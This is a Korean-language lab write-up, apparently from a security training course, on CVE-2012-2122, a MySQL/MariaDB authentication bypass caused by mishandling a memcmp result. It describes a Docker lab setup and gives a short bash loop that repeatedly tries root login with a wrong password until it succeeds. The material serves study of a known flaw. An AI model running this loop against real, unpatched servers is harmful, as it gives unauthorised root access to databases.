 # CVE-2012-2122

| whs 3기 유수빈

## 개요
1. **CVE 번호**: CVE-2012-2122
2. **취약점 명칭**: MySQL Authentication Bypass
3. **설명**: MySQL 서버에서 패스워드 인증 비교 시 잘못된 조건으로 인해, 낮은 확률로 비밀번호가 틀리더라도 root 계정으로 로그인 가능합니다.
4. **영향 버전**: MySQL 5.5.17 이하

## 요약
**CVE-2012-2122**는 MySQL과 MariaDB의 특정 버전에서 발견돤 **인증 우회 취약점**입니다.

- 취약한 MySQL 버전에서는 사용자의 비밀번호를 검증할 때, 내부적으로 'memcmp()'함수를 사용하여 해시값을 비교합니다.
- 해당 함수는 '-128 ~ 127' 범위의 값을 반환하지만, 해당 값을 'char'로 잘못 처리하면, '0'으로 인식하는 경우가 발생할 수 있습니다.
- 이를 통해 **1/256의 확률로 비밀번호가 틀려도 인증에 성공**하게 됩니다.
- 공격자는 이를 이용해 **임의의 비밀번호를 반복 시도**함으로써, **root 계정으로의 인증 우회를 달성하였습니다.

## 실습 환경 구성
- Docker 기반으로 구성
- 'docker-compose.yaml'을 통해 컨테이너 실행
- 컨테이너 내부에서 bash 반복문을 통해 인증 우회 취약점 재현

1. 실습 파일 생성
```bash
cd mysql-cve-2012-2122
```
- 도커 파일 생성
```bash
vi Dockerfile
```
내용 입력 후 저장

- entrypoint.sh 생성
```bash
vi entrypoint.sh
```
내용 입력 후 저장
권한 부여

- docker-compose.yaml 생성
```bash
vi docker-compose.yaml
```

2. 이미지 빌드, 컨테이너 실행
```bash
docker compose build
docker compose up -d
```

3. 컨테이너 안으로 들어가서 실행하기
```bash
docker exec -it mysql-cve bash
```
이후 아래 코드 실행

4. 컨테이너 종료
```bash
docker compose down
```

## 코드 
```bash
for i in {1..1000}; do
  echo "Try $i"
  mysql -u root --password=wrongpass -e "select user();" 2>/dev/null && echo "[+] Login Success!" && break
done
```

## 실행 결과
![cve 환경 구축](https://github.com/user-attachments/assets/cc1e767c-e72d-4d28-a655-38e3afbcba99)

운이 좋게 Try1에서 root 계정 로그인에 성공하였습니다.

